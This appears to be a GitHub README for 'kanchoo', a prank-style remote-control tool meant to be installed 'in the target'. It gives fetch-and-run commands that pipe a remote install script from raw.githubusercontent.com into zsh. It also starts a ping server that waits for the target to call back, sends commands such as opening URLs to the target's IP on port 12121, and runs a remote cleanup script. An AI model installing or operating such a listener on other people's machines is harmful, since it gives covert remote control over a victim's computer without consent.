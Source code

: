 # kanchoo
カンチョー

## how to

#### 1. install in the target
```sh
ip=127.0.0.1 /bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/install)
```

#### 2. start ping server and wait for target to ping back
```sh
./ping.js
```

#### 3. once you have the target details run a story or a single action
```sh
./story <storyName>.json <ip>
```
```sh
curl -H "Content-Type: application/json" -X POST -d '{"openUrl":"example.com"}' http://${ip}:12121
```

#### 4. cleanup after you had some fun
```sh
/bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/cleanup)
```

## dependencies
- nodejs
- zsh

